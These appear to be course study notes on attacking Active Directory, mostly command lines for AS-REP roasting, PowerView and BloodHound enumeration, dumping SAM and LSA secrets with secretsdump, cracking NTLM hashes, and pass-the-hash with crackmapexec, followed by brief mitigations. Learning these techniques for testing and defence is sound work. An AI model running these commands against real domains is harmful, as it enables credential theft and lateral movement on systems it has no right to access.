 ### GetNPUsers & Kerberos Pre-Auth
- List down the users which have Kerberos Pre-Authentication disabled.
- `python3 getnpusers.py htb.local/ -dc-ip 192.168.170.115`
- Grab the HASH of the listed users
- `python3 getnpusers.py htb.local/ dc-ip 192.168.170.115 -request`


### AD Post Compromise Enumeration
- Domain Enumeration with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
  - Powerview is a tool that allows us to look at the network and look at enumerate basically the Domain Controller, Domain Policy, Users group etc.
  - Download the powerview script from above.
  - `powershell -ep bypass`
  - Where, bypass is an execution policy and this removes the blockade of script exection.
  - Run the program `.  .\PoweView.ps1`
  - Get Domain Infomation `Get-NetDomain`
  - Get Specific Domain Controllers - `Get-NetDomainController`
  - Get Domain Policy - `Get-DomainPolicy`
  - Get Specific policy like system access - `(Get-DomainPolicy)."system access"`
  - Get the users - `Get-NetUser`
  - Get the list of users - `Get-NetUser | select cn`
  - Get Domain ADmins - `Get-NetGroup -GroupName "Domain Admins"`
  - List all the files being shared on the network - `Invoke-ShareFinder`
  - [Powerview cheatsheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
- Bloodhound Overwiew and Setup
  - `sudo apt install bloodhound`
  - It runs on a tool called neo4j
  - `neo4j console` - Create a new password.
  - `bloodhound`
- Grabbing Data with Invoke-Bloodhound
  - Download the [sharphound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1) script.
  - Move the file on compromised victim PC.
  - Enable execution `powershell -ep bypass`
  - Execute the script `. .\SharpHound.ps1`
  - Run the script `Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip`
  - All the data are collected on the zip file.
  - Move the file on an attacker machine.
  - Click on the upload data and upload the zip file

### AD Post Compromise Attacks
- Pass the Hash/Password Overview
  - If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks.
  - Pass the Password : `crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`
- Dumping Hashes with [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
  - It is also a part of impacket tools
  - `secretsdump.py marvel/fcastle:Password1@192.168.57.141`
  - It dumps SAM hashes, DP API Key as well as LSA secrets
  - If there is a password reuse, the last bit of the hash will be the same
- Cracking NTLM Hashes with Hashcat
  - `hashcat -m 1000 hashes.txt wordlist.txt -O`
- Pass the Hash Attacks
  - Pass the Hash, Capture the last bit of the hash with psexec hashdump : `crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local`
- Pass Attacks Mitigation
  - Hard to completely prevent, but we can make it more difficult to an attacker.
  - Limit account re-use
    - Avoid re-using local admin password
    - Disable Guest and Administrator accounts
